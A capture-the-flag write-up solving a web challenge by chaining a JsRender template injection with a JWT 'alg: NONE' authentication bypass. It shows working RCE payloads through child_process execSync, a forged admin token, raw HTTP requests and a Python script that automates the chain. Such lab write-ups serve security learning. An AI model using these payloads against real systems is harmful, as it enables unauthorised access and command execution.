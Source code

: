 ## Didactic Octo Paddle :: Medium

#### Scenario

```
You have been hired by the Intergalactic Ministry of Spies to retrieve a powerful relic that is believed to be hidden within the small paddle shop, by the river.
You must hack into the paddle shop's system to obtain information on the relic's location.
Your ultimate challenge is to shut down the parasitic alien vessels and save humanity from certain destruction by retrieving the relic hidden within the Didactic Octo Paddles shop.
```

#### Solve

The challenge begins with a login prompt.
![](/images/didactic-login.png)

While looking at the routes defined in the `index.js` file, we stumble upon a `/register` route that let's us create a user.

![](/images/didactic-register.png)

We create a user.

![](/images/didactic-user-created.png)

We can then login and see the store:

![](/images/didactic-webshop.png)

It seems like they're selling litteral paddles.
It is a webshop.

##### Obtaning RCE

There is an admin page at `/admin`, this page seems to list the existing users.

Here is the code of the `admin.jsrender` file:
```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8" />
  <title>Admin Dashboard</title>
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <link rel="icon" href="/stat/images/favicon.png" />
  <link href="https://cdn.jsdelivr.net/npm/bootswatch@5.2.3/dist/cerulean/bootstrap.min.css" rel="stylesheet" />
  <link href="https://fonts.googleapis.com/css2?family=Press+Start+2P&display=swap" rel="stylesheet" />
  <link rel="stylesheet" type="text/css" href="/static/css/main.css" />
</head>

<body>
  <div class="d-flex justify-content-center align-items-center flex-column" style="height: 100vh;">
    <h1>Active Users</h1>
    <ul class="list-group small-list">
      {{for users.split(',')}}
        <li class="list-group-item d-flex justify-content-between align-items-center ">
          <span>{{>}}</span>
        </li>
      {{/for}}
    </ul>
  </div>
</body>

</html>
```

Here is the code for the `/admin` route.

```javascript
    router.get("/admin", AdminMiddleware, async (req, res) => {
        try {
            const users = await db.Users.findAll();
            const usernames = users.map((user) => user.username);

            res.render("admin", {
                users: jsrender.templates(`${usernames}`).render(),
            });
        } catch (error) {
            console.error(error);
            res.status(500).send("Something went wrong!");
        }
    });
```

There is actually an SSTI vulnerability here.
The `jsrender.templates` function templates the given string.
This can actually lead to RCE as detailed in this article:

- https://appcheck-ng.com/template-injection-jsrender-jsviews
- https://www.jsviews.com/#htmltag

```http
POST /register HTTP/1.1
Host: 10.18.232.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.68.143.81:30500/register
Content-Type: application/json
Origin: http://138.68.143.81:30500
Content-Length: 40
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNjc5MTQ5NDYyLCJleHAiOjE2NzkxNTMwNjJ9.0_s2fX-jd31nc6fNFQwRZktx-UQm9GnBxK8CvsOct2k

{"username":"{{:7*7}}","password":"gh0st"}
```

This request will cause 49 to appear on the admin's page.
Now, one question arises, is admin a bot or do we have to elevate ?

```javascript
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```

This works, it gets RCE on my local instance.
Now time to figure out the admin situation.

##### Obtaining Admin

While reading the source for `AdminMiddleware.js`, I found a weird condition on the JWT's `alg` value.
Here is the condition:
```javascript
// alg == none --> Login
// alg == HS256 --> decode with secret
// else --> Just decode i guess ?

    if (decoded.header.alg == 'none') {
        return res.redirect("/login");
    } else if (decoded.header.alg == "HS256") {
        const user = jwt.verify(sessionCookie, tokenKey, {
            algorithms: [decoded.header.alg],
        });
        if (
            !(await db.Users.findOne({
                where: { id: user.id, username: "admin" },
            }))
        ) {
            return res.status(403).send("You are not an admin");
        }
    } else {
        const user = jwt.verify(sessionCookie, null, {
            algorithms: [decoded.header.alg],
        });
        if (
            !(await db.Users.findOne({
                where: { id: user.id, username: "admin" },
            }))
        ) {
            return res
                .status(403)
                .send({ message: "You are not an admin" });
        }
    }
```

Maybe I can dodge signature validation ?

Something like a default value for it, or specifying an unsafe algorithm.

While tinkering with this condition locally, I found an authentication bypass.

The condition is that the `decoded.header.alg` value equals the string `'none'`.
There could be a way to bypass this, if the underlying library normalizes the `alg` values coming in the `verify` function.

This is how we bypass it, we simply specify the `alg` as `'NONE'` instead.
This goes through to the `else`, which decodes the value and treats the token as valid.

Using this, we can craft an administrator token.

Here is our JWT:
```json
{"alg":"NONE","typ":"JWT"}{"id":1,"iat":1679153124,"exp":1679156724}
```
`alg`: `"NONE"` will bypass the condition.
`id`: 1 represents the administrator user.

We encode it:
```
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9.
```

HERE WE GOOOOO :
```http
GET /admin HTTP/1.1
Host: 10.18.232.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9.;
Upgrade-Insecure-Requests: 1

```

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 1020
Date: Fri, 24 Mar 2023 01:45:03 GMT
Connection: close

<!DOCTYPE html>

//snip //
```

Now that we can visit the admin page, we can put it all together and create a malicious user to extract the flag.

The below script automates this process.

#### Script

```python
#!/usr/bin/env python3
import requests

TARGET = "http://127.0.0.1:1337
ADMIN_ENDPOINT = "/admin"
AUTH_BYPASS_SESSION = "eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9."
REGISTER_ENDPOINT = "/register"
JSRENDER_SSTI = \
        "{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}}"


if __name__ == "__main__":
    s = requests.Session()
    r = requests.post(TARGET + REGISTER_ENDPOINT, json={"username": JSRENDER_SSTI, "password": "O0ops"})
    s.cookies.set("session", AUTH_BYPASS_SESSION, domain="127.0.0.1")
    flag = s.get(TARGET + ADMIN_ENDPOINT)
    print(flag.text)
```

